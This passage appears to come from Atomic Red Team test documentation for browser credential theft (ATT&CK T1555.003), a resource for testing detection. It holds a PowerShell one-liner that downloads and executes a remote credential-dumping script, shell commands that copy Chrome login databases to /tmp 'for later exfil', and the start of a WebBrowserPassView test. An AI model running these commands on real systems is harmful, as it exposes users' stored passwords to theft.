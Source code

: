 **auto_generated_guid:** e5e3d639-6ea8-4408-9ecd-d5a286268ca0

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Sharpweb.ps1')
Invoke-Sharpweb -command "all"
```

<br/>
<br/>

## Atomic Test #14 - Simulating Access to Chrome Login Data - MacOS

This test locates the Login Data files used by Chrome to store encrypted credentials, then copies them to the temp directory for later exfil.
Once the files are exfiltrated, malware like CookieMiner could be used to perform credential extraction.
See https://unit42.paloaltonetworks.com/mac-malware-steals-cryptocurrency-exchanges-cookies/ .

**Supported Platforms:** macOS

**auto_generated_guid:** 124e13e5-d8a1-4378-a6ee-a53cd0c7e369

#### Attack Commands: Run with `sh`!

```sh
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data" "/tmp/T1555.003_Login Data"
cp ~/Library/"Application Support/Google/Chrome/Default/Login Data For Account" "/tmp/T1555.003_Login Data For Account"
```

#### Cleanup Commands:

```sh
rm "/tmp/T1555.003_Login Data" >/dev/null 2>&1
rm "/tmp/T1555.003_Login Data For Account" >/dev/null 2>&1
```

<br/>
<br/>

## Atomic Test #15 - WebBrowserPassView - Credentials from Browser

The following Atomic test utilizes WebBrowserPassView to extract passwords from browsers on a Window system. WebBrowserPassView is an open source application used to retrieve passwords stored on a local computer. Recently noticed as a tool used in the BlackCat Ransomware.

**Supported Platforms:** Windows

**auto_generated_guid:** e359627f-2d90-4320-ba5e-b0f878155bbe

#### Inputs:
